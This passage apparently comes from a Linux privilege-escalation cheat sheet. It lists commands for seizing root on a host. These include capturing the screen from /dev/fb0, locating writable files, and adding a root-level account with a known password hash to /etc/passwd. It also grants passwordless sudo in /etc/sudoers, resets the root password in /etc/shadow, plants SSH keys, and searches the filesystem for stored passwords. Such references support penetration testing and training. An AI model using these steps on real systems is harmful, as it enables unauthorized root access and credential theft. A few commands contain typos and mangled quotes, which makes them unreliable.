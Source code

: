 Is the user a member of the Video group and can we read the Framebuffer?
  
  ```shell
  cat /dev/fb0 > /tmp/screen.raw
  cat /sys/class/graphics/fb0/virtual_size
  ```

## Where can we WRITE?

What are all the files can I write to?
  `find / -type f -writable -path /sys -prune -o -path /proc -prune -o -path /usr -prune -o -path /lib -prune -o -type d 2>/dev/null`

What folder can I write to?
  `find / -regextype posix-extended -regex "/(sys|srv|proc|usr|lib|var)" -prune -o -type d -writable 2>/dev/null`

| Writable Folder / file    | Priv Esc Command                                                                                |
|---------------------------|-------------------------------------------------------------------------------------------------|
| /home/*USER*/             | Create an ssh key and copy it to the .ssh/authorized_keys folder the ssh into the account       |
| /etc/passwd               | manually add a user with a password of "password" using the following syntax <br> user:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:1000:1000:,,,:/home/user:/bin/bash <br> You can even escalate to the root user in some cases with the following syntax: <br> above admin:$1$xtTrK/At$Ga7qELQGiIklZGDhc6T5J0:0:0:,,,:/root:/bin/bash                         |

_Root SSH Key_ If Root can login via SSH, then you might be able to find a method of adding a key to the /root/.ssh/authorized_keys file.

`cat /etc/ssh/sshd_config | grep PermitRootLogin`

_Add SUDOers_ If we can write arbitrary files to the host as Root, it is possible to add users to the SUDO-ers group like so (NOTE: you will need to logout and login again as myuser): `/etc/sudoers`

```shell
root    ALL=(ALL:ALL) ALL
%sudo   ALL=(ALL:ALL) ALL
myuser    ALL=(ALL) NOPASSWD:ALL
```

_Set Root Password_ We can also change the root password on the host if we can write to any file as root:`/etc/shadow`

```shell
printf root:>shadown
openssl passwd -1 -salt salty password >>shadow
```

## Password Hunting

```shell
grep --color=auto -rnw ‘/’ -ie “PASSWORD” --color=always 2>/dev/null  
grep --color=auto -rnw ‘/’ -ie “PASSWORD=” --color=always 2>/dev/null  
```

<https://linuxcommando.blogspot.com/2007/10/grep-with-color-output.html>  

```shell
locate password | more  
locate passw | more  
locate pass | more  
```
